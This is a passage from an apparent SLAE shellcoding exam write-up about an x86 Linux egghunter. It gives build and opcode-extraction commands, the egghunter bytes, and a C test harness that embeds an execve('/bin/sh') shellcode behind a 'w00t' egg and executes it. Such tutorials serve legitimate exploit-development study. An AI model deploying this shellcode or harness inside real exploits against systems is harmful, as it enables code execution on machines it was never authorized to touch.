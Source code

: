 ```
```


As a naive approach, this seems like it will work! Comparing it with the paper mentioned above, it just about matches up. We'll go ahead and put together our shellcode file, using an execve /bin/sh shellcode, and launch it to make sure everything executes as expected.

**_Generating the shellcode_**

```bash
root@kali:~/courses/slae/exam# nasm -f elf32 -o assignment3.o assignment3.nasm
root@kali:~/courses/slae/exam# ld -o assignment3 assignment3.o

root@kali:~/courses/slae/exam/assignment3# objdump -d ./assignment3|grep
 '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' '
 '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

"\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x31\xc0\xb0\x21\xcd\x80
\x3c\xf2\x74\xed\x81\x3a\x77\x30\x30\x74\x75\xea\x81\x7a\x04\x77\x30\x30\x75
\xe1\x83\xc2\x08\xff\xe2"
```

**_shellcode.c_**

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

// Hunting for w00tw00t
unsigned char eggHunter[] = \
"\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x31\xc0\xb0\x21\xcd\x80"
"\x3c\xf2\x74\xed\x81\x3a\x77\x30\x30\x74\x75\xea\x81\x7a\x04\x77\x30\x30\x75"
"\xe1\x83\xc2\x08\xff\xe2";

unsigned char egg[] = "\x77\x30\x30\x74"; // w00t

unsigned char shellcode[] = \ // execve("/bin/sh", NULL, NULL);
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

int main() {
  int eggSize = strlen(egg);
  int shellcodeSize = strlen(shellcode);
  unsigned char* eggie = malloc((eggSize * 2) + shellcodeSize);

  memcpy(eggie, egg, eggSize);
  memcpy(&eggie[eggSize], egg, eggSize);
  memcpy(&eggie[eggSize * 2], shellcode, shellcodeSize);

  printf("Egg Hunter Length: %d\n", strlen(eggHunter));
  printf("Egg + Shellcode Length:  %d\n", strlen(shellcode));

  int (*ret)() = (int(*)())eggHunter;

  ret();
}
```
